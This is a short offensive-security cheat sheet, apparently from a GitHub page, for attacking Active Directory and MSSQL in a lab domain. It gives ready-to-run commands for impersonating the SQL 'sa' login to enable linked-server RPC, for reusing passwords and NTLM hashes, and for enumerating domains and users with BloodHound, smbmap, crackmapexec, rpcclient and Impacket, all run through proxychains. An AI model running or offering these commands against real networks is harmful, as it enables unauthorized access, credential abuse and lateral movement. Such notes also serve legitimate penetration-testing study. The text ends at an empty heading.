 ```sql
execute as login='sa'; exec sp_serveroption 'sql03', 'rpc out', 'true'; (SQL Query)

get-sqlquery -instance "cywebdb\sqlexpress" -query "execute as login ='sa'; exec sp_serveroption 'm3sqlw.red.local', 'rpc out', 'true'" (PowerUpSQL Query)

get-sqlquery -instance "cywebdb\sqlexpress" -query "execute as login ='sa'; exec (sp_serveroption 'm3sqlw.red.local', 'rpc out', 'true') at [m3sqlw.red.local]" (PowerUpSQL Open Query)
```
### Privilege Escalation is not necessary to be done immediately

DA or some specific domain users have admin privilege to current host

### Password/Hash reuse

Similar machines could share the same password/hash

SQL01 and SQL02

SQL01 and File01

## Domain Reconnaissance on Kali
### BloodHound
```bash
proxychains bloodhound-python -c ALL -u kevin -p 'Passw0rd' -d red.com -dc dc.red.com -ns 10.9.20.10 --dns-tcp
```
or
```bash
proxychains bloodhound-python3 -c ALL -u 'WEB05$@RED.COM' --hashes 00000000000000000000000000000000:d66f37fd3d677522959e5b4aeecafb78 -d COMPLYEDGE.COM  -ns 172.16.76.168 --dns-tcp (Extract NTLM from /etc/krb5cc.keytab)
```
### SMB Access
```bash
smbmap -H 10.9.20.10 -u kevin -p Passw0rd
```
### WinRM Access
```bash
crackmapexec winrm 10.9.20.10 -u kevin -p 'Password'
```
### SMB Signing
```bash
crackmapexec smb 10.9.20.10
```
### User

- RPCClient
```bash
proxychains rpcclient -U red.com/kevin.gustavo%Passw0rd 10.9.20.10

enumdomusers

queryuser 0x3601
```
-  Impacket
```bash
proxychains python3 GetADUsers.py -all -k -no-pass -dc-ip 10.9.20.10 red.com/Administrator
```
### Group
